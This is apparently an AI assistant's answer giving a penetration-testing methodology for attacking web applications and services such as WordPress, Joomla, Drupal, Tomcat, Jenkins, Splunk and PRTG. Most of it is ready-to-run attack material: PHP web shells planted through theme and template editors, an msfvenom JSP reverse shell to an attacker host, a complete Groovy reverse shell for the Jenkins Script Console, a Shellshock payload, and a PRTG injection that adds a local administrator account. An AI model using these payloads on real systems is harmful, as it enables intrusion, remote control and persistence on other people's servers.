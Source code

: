 Of course. Here is a comprehensive methodology for attacking common applications, created by structuring, refining, and extending the information you provided with additional context and techniques.

-----

# Web Application & Service Attack Methodology

This document outlines a structured approach for identifying, enumerating, and exploiting common web applications and services found during a penetration test.

## 1\. Initial Discovery & Enumeration (Mapping the Battlefield) 🗺️

Before attacking a specific application, you must first map the entire attack surface.

### Port Scanning & Service Discovery

Identify open ports and the services running on them. Focus on common web ports but don't ignore non-standard ones.

```bash
# Scan for common web ports across a list of targets
nmap -p 80,443,8000,8080,8180,8888 --open -oA web_discovery -iL scope_list

# Perform a detailed service version scan on a specific target
nmap -sV -p- --open <target_ip>
```

### Visual Reconnaissance

Use screenshotting tools to quickly get a visual sense of the web applications you've discovered, helping you prioritize interesting or outdated-looking targets.

```bash
# Take screenshots of all discovered web services using Eyewitness
eyewitness --web -x web_discovery.xml -d eyewitness_report

# Alternatively, use Aquatone
cat web_discovery.xml | ./aquatone -nmap
```

### Directory & File Brute-Forcing

A critical step for every web application is to find hidden directories, files, and admin panels.

```bash
# Use ffuf to find directories and files
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<target>/FUZZ

# Look for specific file extensions
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<target>/FUZZ -e .php,.bak,.config,.txt
```

-----

## 2\. Attacking Content Management Systems (CMS) 📝

CMS platforms are ubiquitous and often vulnerable due to outdated versions, insecure plugins, or weak credentials. The general strategy is: **Identify Version -\> Scan -\> Exploit**.

### WordPress

The most popular CMS, making it a frequent target.

```bash
# Use wpscan to enumerate version, themes, plugins, and users
wpscan --url http://<target>/ --enumerate -t 50 --api-token <YOUR_API_TOKEN>

# Brute-force user passwords via XML-RPC to avoid UI lockouts
wpscan --url http://<target>/ --passwords /path/to/wordlist.txt --usernames admin,editor

# If you get admin access, upload a PHP reverse shell via the theme editor (e.g., in 404.php)
# <?php system($_GET['cmd']); ?>
curl http://<target>/wp-content/themes/themename/404.php?cmd=whoami
```

### Joomla

Another popular CMS with a history of critical vulnerabilities.

```bash
# Identify the version and scan for vulnerabilities
joomscan -u http://<target>/
droopescan scan joomla -u http://<target>/

# Brute-force the administrator login
joomla-brute.py -u http://<target> -w /path/to/wordlist.txt -usr admin

# With admin access, edit a template (e.g., error.php) to get RCE
# <?php system($_GET['cmd']); ?>
curl http://<target>/templates/protostar/error.php?cmd=id
```

### Drupal

Known for several highly critical, unauthenticated RCEs ("Drupalgeddon").

```bash
# Identify version and scan
droopescan scan drupal -u http://<target>

# Test for Drupalgeddon 2 (CVE-2018-7600)
python3 drupalgeddon2.py -u http://<target> -c "whoami"

# With admin access, enable the PHP Filter module and add PHP code to a page for RCE
# <?php system($_GET['cmd']); ?>
curl http://<target>/node/1?cmd=id
```

-----

## 3\. Attacking Application & Java Servers ☕

These platforms often host critical business logic and can provide deep access to the internal network if compromised.

### Apache Tomcat

A very common Java application server. The manager interface is a primary target.

```bash
# Enumerate the Tomcat Manager page and test default credentials (e.g., tomcat:tomcat)
# Metasploit has a great scanner: use scanner/http/tomcat_mgr_login

# If you gain access to the manager, deploy a malicious WAR file containing a JSP shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f war -o shell.war

# Upload shell.war through the manager UI and access it at http://<target>/shell/
```

  * Also, check for the **Ghostcat** vulnerability (CVE-2020-1938), which allows for Local File Inclusion (LFI) via the AJP connector (port 8009).

### Jenkins

An automation server that is a goldmine if compromised. The Script Console is a direct path to RCE on the server.

```groovy
// In the Jenkins Script Console (/script), run Groovy code for a reverse shell
String host="<attacker_ip>";
int port=4444;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

-----

## 4\. Attacking CI/CD & Management Platforms ⚙️

These tools often have high privileges and store sensitive secrets and code.

### GitLab

A popular DevOps platform. Look for outdated versions with known RCEs.

```bash
# Check for known vulnerabilities. A famous one was CVE-2021-22205 (ExifTool RCE)
# Search for public exploits for the specific GitLab version.

# User enumeration can be performed against the API
./gitlab_userenum.sh --url http://<target>/ --userlist users.txt
```

### Splunk

A data platform that can be extended with "apps." A malicious app can be used to get a shell.

```bash
# Check for default credentials (admin:changeme)
# If you gain access, package a reverse shell script into a Splunk app structure
# Example: reverse_shell_splunk/bin/run.sh
# Tar the directory: tar -cvzf revshell.tar.gz reverse_shell_splunk/

# Upload the malicious app via the UI and listen for the connection.
```

### PRTG Network Monitor

A monitoring tool where "Notifications" can be abused to execute code.

```powershell
# Check for default credentials (prtgadmin:prtgadmin)
# Go to Setup > Account Settings > Notifications > Add New Notification
# Set it to "Execute Program"
# For the Program/Script, enter a simple reverse shell payload.
# For Parameters, add your commands:
;net user prtgadm1 Pwn3d! /add;net localgroup administrators prtgadm1 /add
# Trigger the notification to execute the payload.
```

-----

## 5\. Exploiting Web Server & CGI Vulnerabilities 🌐

Legacy configurations and technologies can be a soft spot.

### CGI Command Injection & Shellshock

Older CGI scripts often pass user input directly to shell commands.

```bash
# Test for Shellshock (CVE-2014-6271) on discovered CGI scripts
curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep 5"' http://<target>/cgi-bin/test.cgi

# Look for command injection by adding shell characters like ; | &
http://<target>/cgi-bin/script.sh?file=;whoami
```

### IIS Tilde Enumeration

An information disclosure flaw in older IIS versions that reveals short names of files and directories.

```bash
# Use a scanner to find short names
java -jar iis_shortname_scanner.jar 0 5 http://<target>/
```

-----

## 6\. Advanced Application Analysis 🔬

### Thick Client Reverse Engineering

For Java-based thick clients (`.jar` files):

1.  **Intercept Traffic**: Configure the application to proxy through **Burp Suite** to analyze API requests.
2.  **Decompile**: Use a Java decompiler like **JD-GUI** or **JADX** to view the source code.
3.  **Analyze**: Look for hardcoded credentials, weak cryptography, or client-side logic flaws.
4.  **Modify & Recompile**: If needed, modify the source code, recompile (`javac`), and repackage the `.jar` file to exploit vulnerabilities.
